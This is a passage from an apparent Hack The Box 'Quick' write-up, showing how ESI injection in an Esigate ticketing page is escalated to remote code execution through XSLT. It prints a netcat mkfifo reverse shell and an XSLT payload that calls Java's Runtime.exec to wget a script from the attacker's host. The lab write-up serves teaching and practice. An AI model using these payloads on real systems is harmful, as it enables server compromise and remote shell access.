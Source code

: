 ![](/assets/images/htb-writeup-quick/image-20200425195402958.png)

A random ticket ID is generated each time we submit a new ticket.

![](/assets/images/htb-writeup-quick/image-20200425195436245.png)

We can then search for our ticket and the content is returned.

![](/assets/images/htb-writeup-quick/image-20200425195631981.png)

In the **search.php** response, we can see that the web application uses **Esigate**. This allows the application to modify the content of the page using special ESI tags. 

![](/assets/images/htb-writeup-quick/image-20200425195918422.png)

There's a [blog post](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/) that go over abusing specific implementations of ESI. In a nutshell, we can get RCE on the server by injecting XML Stylesheet Language Transformations (XSLT). The input on the ticket creation page is totally unfiltered so we can add ESI tags and they will be reflected back.

A quick test shows that we can get a ping back to our webserver by using the following tag:

![](/assets/images/htb-writeup-quick/image-20200425201134062.png)

![](/assets/images/htb-writeup-quick/image-20200425201200365.png)

To get a shell on the server, I'll first create a **shell.sh** script that will execute a typical reverse shell payload:

```bash
#!/bin/bash
rm /tmp/yolo;mkfifo /tmp/yolo;cat /tmp/yolo|/bin/sh -i 2>&1|nc 10.10.14.10 443 >/tmp/yolo
```

By using the example in the blog post, I created the first XSLT file with the following payload to download my shell script  with **wget**.

```
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget 10.10.14.10/shell.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
